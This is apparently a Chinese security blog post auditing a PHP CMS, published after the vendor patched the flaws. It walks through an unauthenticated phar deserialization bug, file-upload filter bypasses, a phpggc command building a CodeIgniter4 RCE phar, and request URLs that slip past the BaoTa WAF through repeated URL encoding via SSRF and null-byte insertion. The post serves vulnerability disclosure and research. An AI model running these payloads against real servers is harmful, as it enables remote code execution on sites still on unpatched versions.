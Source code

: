 #  实战某凤网站导致的代码审计  
原创 珂字辈  珂技知识分享   2025-06-19 10:01  
  
0.	前言   
  
  
  
这篇文章很早就写了，因为涉及0day不想影响太大，于是就想等作者修了再发。现在漏洞已经公开了，作者也修了，就发出来吧。  
  
https://xz.aliyun.com/news/18215  
  
  
1.	前台phar反序列化(4.5.6/4.6.1)   
  
  
404页面即暴露了cms版本号，比较新(4.5.6)，离当时的最新版(4.6.1)最差一个版本号。但官方不提供旧版下载，在别的地方找到了进行代码审计。  
  
只测试了这两个版本，很快便发现了存在未授权phar://反序列化漏洞。  
  
/dayrui/Fcms/Control/Api/Api.php  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOaic7VlpM8645SOYP9qPBgIYWtnhicISovlTeAhib1YvKeSESMgkNWiadtaw/640?wx_fmt=png&from=appmsg "")  
  
前面的if看起来试图校验$thumb必须符合http(s)前缀，但显然$thumb没法同时满足三个条件，进不去exit()，所以这个校验根本没用。  
  
/index.php?s=api&c=api&m=qrcode&thumb=https://www.baidu.com/img/flexible/logo/pc/result.png&text=12345&size=5&level=H  
  
该功能本意是提供一个远程加载头像并合成二维码图片的功能，无论成功与否都会在cache/file目录生成一个二维码图片。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOaAzkgglIy1ibbqYh19ZAY4Ph4c55nxMpSoScribexxvQDaHc0ARpsntNA/640?wx_fmt=png&from=appmsg "")  
  
通过代码可得知，第一次请求会走到getimagesize()中，提供了phar://的入口，但第二次如果访问同样的url，就会直接返回cache/file/qrcode-xxx-qrcode.png。这个时候每次访问都可以加点不干扰代码运行的东西，比如phar://1.phar/qqq，http://x.com/?xxx=xxx，file:///tmp//////xxx//////xxx，以保证getimagesize()的执行。  
  
我们本地搭好同版本环境，在根目录放入一个phar。这套cms最新版有三种内核Codeigniter/Laravel/ThinkPHP，默认是Codeigniter，且旧版也只有Codeigniter，因此生成payload。  
```
php phpggc CodeIgniter4/RCE2 phpinfo 1 -p phar -o 1.phar
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOaRsG4faruQHpMGPibyqIic9NTCaVRp80jyLsTkbQExibITD8XGwGe1xibbw/640?wx_fmt=png&from=appmsg "")  
  
但这套cms已经开始推荐php8.0，8.0开始不支持phar反序列化，默认情况下/test.php可以看到php版本。  
  
  
发布文章的时候4.7.0已修复  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOaZD2ickPTTLkISIAnW3oKzZeK6dzv4icI6D2YndbeD6l5Q0dVLpHoibmtA/640?wx_fmt=png&from=appmsg "")  
  
  
  
2.	文件上传(4.5.6/4.6.1)  
  
  
有了phar://自然要找一个上传点，qrcode功能虽然也能生成文件，但文件内容不受控制。该cms核心上传功能位于  
/dayrui/Fcms/Control/Api/File.php中。  
  
/index.php?is_iframe=1&s=api&c=file&m=input_file_list&fid=2&is_wm=&ct=1&pp=2  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOaAAZ2seBd3JUeWdr0I0rDcibjYricoicZY10NnOTUrxUYg2RUavL8ibgpmQ/640?wx_fmt=png&from=appmsg "")  
  
此接口校验了会员权限，不过刚好目标是开放会员且开放文件上传权限的。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOarxkxFiaZXeMbiaK7PNYwIHg1ia0KwonD4sOKwchmiasfmugeywN6MkEtOw/640?wx_fmt=png&from=appmsg "")  
  
首先是传统的upload()  
  
其主要有三种防护，一是后缀白名单，只允许gif/jpg/jpeg/png/webp  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOaTIB1wrTvSvy3rcPnvwj9WDibgicQ9VGIQahY0FV55HJlABZX3RjSwSyA/640?wx_fmt=png&from=appmsg "")  
  
二是文件头检测，用图片马或者经典的GIF89au即可。  
  
三是文件内容检测，用不含<?php的php文件绕过即可。这个后台有个开关，也就是宽松模式，设置了这个内容检测就不生效了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOaEg0lE6sKGaiboibEv3ny3whza7x6sr6zW1pf2XWI4wiboUVUdB6UbUrlw/640?wx_fmt=png&from=appmsg "")  
  
那么我们能够构造出符合条件的phar文件吗？当然可以，phar文件本身就对脏数据有着极高的兼容性。手动修改phar文件只需修复签名即可生效，见下面这篇文章。  
  
https://forum.butian.net/share/1917  
  
还有<?php __HALT_COMPILER(); ?>的问题呢？事实上php在加载phar文件时仅检测__HALT_COMPILER(); ?>，也就是说只需要这样即可完成反序列化。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOaqDxRdpVLLTyTRgWaA7nUdyoHwLHiaT5VOYm2xhHgTibnK5kmVlv640Bg/640?wx_fmt=png&from=appmsg "")  
  
除了upload()之外，还有upload_base64_image()，拥有着差不多的过滤规则，这里不赘述。  
  
  
  
3.	绕过宝塔  
  
回过头来，我们完成了phar的整个利用流程，然而目标上有着版本较新的宝塔需要绕过。  
  
第一是<?php __HALT_COMPILER(); ?>中含有的<?php宝塔同样会拦截，不过我们已经搞定了。  
  
第二就是thumb=phar://1.phar的phar:/宝塔会拦截，绕宝塔的一些方法只存在POST中。这个由于在get中，几乎避无可避，只能正面应对。  
  
常用的大小写肯定是不行的，但我们注意到在代码中，自作多情的替thumb参数做了一次url解码。  
```
$thumb = urldecode(\Phpcmf\Service::L('input')->get('thumb'));
```  
  
那么这里可以用二次url编码的方式尝试绕过。  
  
/index.php?s=api&c=api&m=qrcode&thumb=phar:%252f/uploadfile/202306/0621bca061e768.gif&text=12345&size=5&level=H  
  
但这样就想过也太小瞧宝塔了，一次url编码是无用功，二次url编码对于绕过宝塔这样强壮的waf还是不够用，我们需要三次url编码。  
  
如何做到三次url编码呢？phar反序列化和远程文件下载，同时也都是SSRF，这意味着我们可以利用SSRF来进行多次url编码达到自己的请求不被拦截的目的。  
  
也就是下面这个payload。  
  
http://x.com/index.php?s=api&c=api&m=qrcode&text=12345&size=5&level=H&thumb=http://x.com/index.php?s=api%26c=api%26m=qrcode%26text=12345%26size=5%26level=H%26thumb=phar:%25252F/uploadfile///202306/0621bca061e768.gif  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOaIGxfbQooZUjytAwDSaZcOslazVKrStR1SdxVxWLTj0xY5mhn2DKw0A/640?wx_fmt=png&from=appmsg "")  
  
当然，payload不能是phpinfo了，换成system('calc');更加直观。  
  
  
光这样还是不行，因为虽然我们请求服务器是三次url编码不会被宝塔拦截，但服务器自己请求自己是二次url编码还是会被拦截。  
  
但如果对方同时在宝塔配置了域名绑定127.0.0.1的某个端口  
。当服务器自己请求127.0.0.1时，即使是攻击行为，宝塔也不会管。  
  
不过可惜的是，宝塔的127.0.0.1:80一般绑定的是/www/wwwroot/default/目录，使用宝塔正常配置基本上不会存在访问127.0.0.1:80和x.com一样的情况。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOaQaSiaopiaZLKJZhwia27IcqsGMGLW82gPTcbiadl3ySggJI4m7Dn6SKD9w/640?wx_fmt=png&from=appmsg "")  
  
还有没有其他办法呢？除了urldecode我们还注意到，它使用了自定义的get方法，追踪后发现，有个XSS过滤器。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOa80NLsstsllzCBzBTNiae3qAbARia8K3p3XiaxqS2iaym9K8UIOa3hg5ONA/640?wx_fmt=png&from=appmsg "")  
  
/dayrui/Fcms/Library/Security.php  
  
在这个xss_clean中，发现了大量花里胡哨的过滤，在最后惊喜的发现它居然将很多不可见字符都替换为空了。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOaiawVhmqTgUddwZKZHutqLtQyicbfzViboWkSv6jUV34dOicZtcJHlEuhjw/640?wx_fmt=png&from=appmsg "")  
  
那么随便使用%00等就能轻松的打乱宝塔对phar:/的关键字检测，达到绕过目的。  
  
/index.php?s=api&c=api&m=qrcode&thumb=ph%00ar://uploadfile///202306/0621bca061e768.gif&text=12345&size=5&level=H  
  
![](https://mmbiz.qpic.cn/mmbiz_png/fUHjCzeNkU61kBn4ITSrlLJS3rjIpGOaR7JWXIIetuiccf7OfDp0UwYcsc89KfR3SlibrmfrLwkrTeUh3z5BNQJw/640?wx_fmt=png&from=appmsg "")  
  
  
